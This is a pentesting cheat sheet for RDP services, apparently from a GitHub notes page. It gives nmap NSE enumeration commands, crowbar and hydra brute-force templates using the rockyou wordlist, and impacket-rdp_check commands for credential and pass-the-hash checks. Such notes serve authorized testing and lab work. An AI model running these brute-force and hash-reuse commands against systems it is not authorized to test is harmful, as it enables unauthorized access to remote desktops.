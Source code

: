 **General Methodology**
> Run `nmap` to gather service specific information and vulnerability information.
> If any valid creds are found previously, check if they can be reused.
> Check possibilities for generating custom wordlist for brute-forcing.


**Enumeration**

Enumerate with `nmap nse` to find additional information.

```bash
sudo nmap -n -Pn -sT -T4 -p T:3389 --script "rdp-ntlm-info,rdp-enum-encryption" -sV -oA recon/nmap-${IP}-tcp-rdp ${IP}
```

```text

```


**Brute-Force**

Check possibilities for generating custom wordlist using,
- `cewl`
- `wordhound`

Check for `brute-force` possibilities using,
- `Crackmapexec`
- `Hydra`
- `Crowbar`


```bash
USER="" ; crowbar -b rdp -s ${IP} -u ${USER} -C /usr/share/wordlists/rockyou.txt -n 16
crowbar -b rdp -s ${IP} -U users.txt -C /usr/share/wordlists/rockyou.txt -n 16
```

```text

```


```bash
USER="" ; hydra -I -l ${USER} -P /usr/share/wordlists/rockyou.txt ${IP} -t 4 rdp
hydra -I -L users.txt -P /usr/share/wordlists/rockyou.txt ${IP} -t 4 rdp
```

```text

```


If `domain`, `user`, `password` or `hash` information are available for guessing,

```bash
DOMAIN="" USER="" PASS="" ; impacket-rdp_check ${DOMAIN}/${USER}:${PASS}@${IP}
```

```bash
DOMAIN="" USER="" HASH="" ; impacket-rdp_check -hashes ${HASH} ${DOMAIN}/${USER}@${IP}
```

```text

```
